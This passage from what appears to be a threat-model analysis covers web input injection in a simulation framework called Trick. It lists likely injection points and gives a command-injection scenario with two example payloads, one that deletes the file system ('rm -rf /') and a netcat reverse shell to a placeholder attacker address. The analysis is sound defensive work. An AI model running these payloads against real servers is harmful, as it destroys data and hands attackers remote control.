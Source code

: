 *   **Web Forms:**  Any input field in web forms provided by the Trick web interface is a potential injection point. This includes fields for:
    *   Simulation parameters (e.g., initial conditions, environment settings).
    *   Job submission parameters (if Trick allows job scheduling).
    *   User configuration settings (if configurable via the web interface).
    *   File upload fields (if Trick allows file uploads, these could contain malicious content or filenames designed for injection).

*   **API Requests:**  If Trick exposes APIs (e.g., RESTful APIs) for programmatic interaction, these APIs are also potential attack vectors. Attackers can craft malicious API requests with injected payloads in:
    *   Request parameters (GET or POST parameters).
    *   Request body (e.g., JSON or XML payloads).
    *   Headers (less likely for direct command injection, but could be relevant for other injection types).

*   **URL Parameters:**  If the web interface uses URL parameters to pass data, these parameters can be manipulated to inject malicious input.

**Potential Injection Points within Trick Components:**

Based on the threat description and general web application architecture, potential injection points within Trick components could be:

*   **Web Interface Handlers:**  Code within the web interface that receives user input and processes it. If this code directly uses input to construct commands or queries without validation, it's a prime injection point.
*   **Input Validation Modules (If Present and Insufficient):**  Even if Trick has input validation, it might be incomplete, flawed, or bypassed.  Insufficient validation is a common cause of injection vulnerabilities.
*   **Simulation Parameter Parsing/Processing:**  Modules that take validated input and translate it into parameters for the simulation engine. If this process is not secure, injection could occur here.
*   **Command Execution Modules (Critical for Command Injection):**  Any modules within Trick that are responsible for executing system commands.  If these modules receive user-influenced data, they are high-risk areas for command injection.
*   **Database Interaction Modules (If Applicable):** Modules that interact with databases using user-provided input in queries.

#### 2.3 Impact Analysis (Detailed Scenarios)

The impact of successful Web Interface Input Injection can be severe, ranging from simulation manipulation to full system compromise. Here are detailed impact scenarios:

**Scenario 1: Command Injection leading to Server Compromise**

1.  **Attack Vector:**  Attacker uses a web form field designed to set a simulation parameter that is later used in a system command executed by a Trick component (e.g., a script to process simulation data).
2.  **Injection:**  Attacker injects a malicious payload into the form field, such as: `; rm -rf /` or `& netcat -e /bin/bash <attacker_ip> <attacker_port>`.
3.  **Vulnerability:**  The Trick component does not properly sanitize or validate the input before using it in the system command.
4.  **Exploitation:**  The malicious command is executed on the server with the privileges of the Trick component.
5.  **Impact:**
    *   **Complete Server Compromise:** The attacker gains remote shell access to the server, allowing them to execute arbitrary commands, install backdoors, steal data, and disrupt operations.
    *   **Data Breach:** Sensitive simulation data, configuration files, or other system data could be accessed and exfiltrated.
    *   **Denial of Service:** The attacker could crash the server or disrupt Trick services.
